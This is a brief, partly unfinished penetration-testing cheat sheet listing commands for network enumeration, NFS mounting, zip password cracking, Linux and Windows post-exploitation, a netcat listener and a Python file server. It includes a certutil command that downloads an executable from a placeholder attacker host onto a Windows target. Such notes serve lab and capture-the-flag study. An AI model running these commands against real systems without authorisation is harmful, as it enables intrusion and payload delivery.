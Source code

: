## Enumeration 
arp-scan -l

showmount -e <server ip>

mount -t nfs <server ip>:<remote path shown from showmount> <to local mount point>

nmap -sV -A -T4 -p- 

nmap --sC ? 

gobuster ######

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt <target.zip>

## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop <application>

sc start <application>

sc query <application>

certutil.exe -urlcache -f http://<attackerip>:8000/<application.exe> <applicationname.exe>

## Listener
nc -nlvp <port>

## Directory hosting
python -m SimpleHTTPServer






